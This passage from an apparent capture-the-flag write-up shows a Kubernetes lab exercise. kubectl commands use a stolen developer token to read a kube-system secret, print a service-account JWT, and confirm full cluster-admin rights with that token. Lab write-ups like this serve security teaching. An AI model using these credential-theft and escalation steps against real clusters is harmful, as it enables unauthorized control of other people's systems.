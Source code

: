 Working down the list, the first one I picked to play with was `c-admin-token-tfmp2`.

```

oxdf@parrot$ kubectl describe secret c-admin-token-tfmp2 -n kube-system --token $(cat dev-token) --server https://10.10.10.235:8443 --certificate-authority ca.crt
Name:         c-admin-token-tfmp2
Namespace:    kube-system
Labels:       <none>
Annotations:  kubernetes.io/service-account.name: c-admin
              kubernetes.io/service-account.uid: 2463505f-983e-45bd-91f7-cd59bfe066d0

Type:  kubernetes.io/service-account-token

Data
====
namespace:  11 bytes
token:      eyJhbGciOiJSUzI1NiIsImtpZCI6IkpOdm9iX1ZETEJ2QlZFaVpCeHB6TjBvaWNEalltaE1ULXdCNWYtb2JWUzgifQ.eyJpc3MiOiJrdWJlcm5ldGVzL3NlcnZpY2VhY2NvdW50Iiwia3ViZXJuZXRlcy5pby9zZXJ2aWNlYWNjb3VudC9uYW1lc3BhY2UiOiJrdWJlLXN5c3RlbSIsImt1YmVybmV0ZXMuaW8vc2VydmljZWFjY291bnQvc2VjcmV0Lm5hbWUiOiJjLWFkbWluLXRva2VuLXRmbXAyIiwia3ViZXJuZXRlcy5pby9zZXJ2aWNlYWNjb3VudC9zZXJ2aWNlLWFjY291bnQubmFtZSI6ImMtYWRtaW4iLCJrdWJlcm5ldGVzLmlvL3NlcnZpY2VhY2NvdW50L3NlcnZpY2UtYWNjb3VudC51aWQiOiIyNDYzNTA1Zi05ODNlLTQ1YmQtOTFmNy1jZDU5YmZlMDY2ZDAiLCJzdWIiOiJzeXN0ZW06c2VydmljZWFjY291bnQ6a3ViZS1zeXN0ZW06Yy1hZG1pbiJ9.Xk96pdC8wnBuIOm4Cgud9Q7zpoUNHICg7QAZY9EVCeAUIzh6rvfZJeaHucMiq8cm93zKmwHT-jVbAQyNfaUuaXmuek5TBdY94kMD5A_owFh-0kRUjNFOSr3noQ8XF_xnWmdX98mKMF-QxOZKCJxkbnLLd_h-P2hWRkfY8xq6-eUP8MYrYF_gs7Xm264A22hrVZxTb2jZjUj7LTFRchb7bJ1LWXSIqOV2BmU9TKFQJYCZ743abeVB7YvNwPHXcOtLEoCs03hvEBtOse2POzN54pK8Lyq_XGFJN0yTJuuQQLtwroF3579DBbZUkd4JBQQYrpm6Wdm9tjbOyGL9KRsNow
ca.crt:     1066 bytes

```

#### API as Admin

Now with that admin token, I’ll check authorities again:

```

oxdf@parrot$ kubectl auth can-i --list --token $(cat cadmin-token) --server https://10.10.10.235:8443 --certificate-authority ca.crt
Resources                                       Non-Resource URLs                     Resource Names   Verbs
*.*                                             []                                    []               [*]
                                                [*]                                   []               [*]
selfsubjectaccessreviews.authorization.k8s.io   []                                    []               [create]
selfsubjectrulesreviews.authorization.k8s.io    []                                    []               [create]
                                                [/.well-known/openid-configuration]   []               [get]
                                                [/api/*]                              []               [get]
                                                [/api]                                []               [get]
                                                [/apis/*]                             []               [get]
                                                [/apis]                               []               [get]
                                                [/healthz]                            []               [get]
                                                [/healthz]                            []               [get]
                                                [/livez]                              []               [get]
```